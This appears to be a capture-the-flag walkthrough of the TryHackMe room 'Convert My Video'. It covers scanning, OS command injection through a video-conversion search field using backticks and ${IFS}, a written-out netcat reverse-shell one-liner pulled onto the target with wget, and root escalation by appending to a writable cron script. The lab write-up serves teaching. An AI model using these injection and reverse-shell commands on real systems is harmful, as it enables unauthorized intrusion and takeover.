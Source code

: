 ```yaml
---
layout: post
title: "Convert My Video"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [security, web, ctf, challenge]
image: ../../assets/img/posts/ConvertMyVideo.png 

---
```


## Description

My Script to convert videos to MP3 is super secure.

|**Room**|[Internal](https://tryhackme.com/room/convertmyvideo)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[overjt](https://tryhackme.com/p/overjt)|

---

After deploying, we'll start with nmap scan,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.10.222.32
```

![image](https://user-images.githubusercontent.com/67465230/164979815-b3b03a39-3af5-456d-b9f0-9f58e1aa46f7.png)

We can see that 2 ports 22 (SSH) and 80 (HTTP) are open.

Let's visit http://10.10.222.32/,

![image](https://user-images.githubusercontent.com/67465230/164979819-4706dd39-296a-4607-8be8-f2a637a4fec4.png)

Looks like this is a sort of conversion site where one can convert video to mp3 and vice versa.

Now, let's brute force directories using gobuster tool,

```bash
gobuster dir -u http://10.10.222.32/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -q 2>/dev/null
``` 

![image](https://user-images.githubusercontent.com/67465230/164979820-c7b6f276-17f4-4e93-9ee6-a90cc9c052da.png)

We can see that it has **/admin** as secret directory. Now, we'll visit to admin path, this window poppup will occur,

![image](https://user-images.githubusercontent.com/67465230/164979821-917162c3-a141-4a00-990c-086f16a06748.png)

It wants us to give username and password to get authenticated. We don't have credentials. So it'll give this message,

![image](https://user-images.githubusercontent.com/67465230/164979823-5932ef68-e8d5-4491-bb9b-68dae1ca1c9f.png)

Now, we'll look for another method. 

Let's try to give some input in search tab on main page and we'll intercept the request using burpsuite,

![image](https://user-images.githubusercontent.com/67465230/164979833-c7189fec-17fa-48d8-b909-e6f78bdedfa6.png)

now, let's intercept request and send this to repeater,

![image](https://user-images.githubusercontent.com/67465230/164979839-07ad33d2-5dd9-4261-b3d7-8ab107d94cdc.png)

Repeater will give response to this request as much we'll modify this request,

![image](https://user-images.githubusercontent.com/67465230/164979842-ef558664-3b78-4984-af31-6ce84731f511.png)

It gives normal error message contain warning. Let's try another search but this time, we'll provide a number,

![image](https://user-images.githubusercontent.com/67465230/164979846-7b0abf2a-9115-4b02-b26a-fafc23121e87.png)

This time we'll provide number to see what happens,

![image](https://user-images.githubusercontent.com/67465230/164979849-afa3887c-60ee-4a9a-86b3-bcdd06cad59e.png)

we get different error this time. That means this is **OS Command Execution** vulnerability. 

Try to inject some commands in between **backticks** to see what we got as response but we don't get a response that we want instead, we'll get error. But when we type man command in between backticks, 

![image](https://user-images.githubusercontent.com/67465230/164979853-19a0bff7-48e1-4edc-8ec6-b17c744548f0.png)

We'll get this output,

![image](https://user-images.githubusercontent.com/67465230/164979856-d5961246-d5be-4b08-8993-cf5db1e308fd.png)

We got different response and "What manual page do you want" depicts that we've OS command execution vulnerability.

We'll try to get a netcat reverse shell using one-liner, the issue is that the command has some symbols in it that would actually break the injection,

![image](https://user-images.githubusercontent.com/67465230/164979859-c925791d-1f51-4e92-9a04-a4fe0f464a96.png)

So to prevent that, I've put this reverse shell into file called nc_shell on my local system,

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.189.151 4444 >/tmp/f
```

![image](https://user-images.githubusercontent.com/67465230/164979864-030dd639-7510-496c-82a4-b3957d539880.png)

and we'll upload this file using **wget**.

Starting python server to upload shell on machine, `python3 -m http.server` and type this syntax to upload the shell using **wget** command and make sure to replace " " with **"${IFS} "**  otherwise injection will break.

![image](https://user-images.githubusercontent.com/67465230/164979871-b555ee1f-f925-4842-aeaa-6b7420930ff1.png)

we'll get a response like this after uploading shell,

![image](https://user-images.githubusercontent.com/67465230/164979876-c4a11228-08a5-46a8-843f-58bbb7f22720.png)

Now, we'll start netcat listener on our machine, `nc -nvlp 4444` and now we'll execute the uploaded shell on burp,

![image](https://user-images.githubusercontent.com/67465230/164979880-63442333-5398-4500-ad2e-6fc4d2b5d11e.png)

after sending request, we'll get a reverse connection back on netcat listener.

![image](https://user-images.githubusercontent.com/67465230/164979884-529baa27-2fe9-4cfe-aefa-7a767a9e036e.png)

we're www-data user. That means we have shell.

we'll improve shell functionality,

```/bash
bin/bash -i
```

![image](https://user-images.githubusercontent.com/67465230/164979886-af2ebfa4-5c2a-4d4f-a5fb-0fa2a45ab0d3.png)

after doing ls we'll find that there are many directories present. And there's an **admin** directory present. Let's navigate to that and enumerating it,

![image](https://user-images.githubusercontent.com/67465230/164979889-62b93eaf-bc86-43d4-b87b-7ecba9be47c3.png)

let's view the content of htpasswd file,

![image](https://user-images.githubusercontent.com/67465230/164979892-ae2aad57-8633-4f0c-87ec-090602c5d68a.png)

Seems like these are creds for something. After tried everything, we can't crack this password.

Now, we've to do privilege escalation here. For this, we'll upload **pspy64s** file to monitor linux processes. 

![image](https://user-images.githubusercontent.com/67465230/164979895-b0f90ca3-efcc-4c66-b554-326286a3dc1b.png)

Now that the pspy64s file has been downloaded, we'll change it's execute permissions,

```bash
chmod +x pspy64s
```

Now, executing file, `./pspy64s` and after waiting sometime, we'll got to know what processes are running on the system,

![image](https://user-images.githubusercontent.com/67465230/164979898-cf8fb960-7e76-49f4-a34e-361dc800f59d.png)

and these are repeating on cycle. I wonder this is the work of CronJobs. 

Let's go to tmp folder,

![image](https://user-images.githubusercontent.com/67465230/164979904-124dfc3e-a7b6-4cc5-b9f5-63cc163b7cd7.png)

we found the binary there. Looks like is a scheduled task and runs frequently as root. It’s a shell file which is scheduled to run regularly as root and ‘www-data’ (current user) is the owner. You can modify the file to do anything you like as root == PrivEsc!

Append file with a command to cat out /root/root.txt and pass output to a file that we can access,

```bash
echo 'cat root/root.txt > root_flag' >> clean.sh
```

Wait for sometime to let the script execute. It tooks a while to get root_flag,

![image](https://user-images.githubusercontent.com/67465230/164979910-f6245668-258b-4f2c-a6c8-872dbff96e6d.png)

and we've our root flag.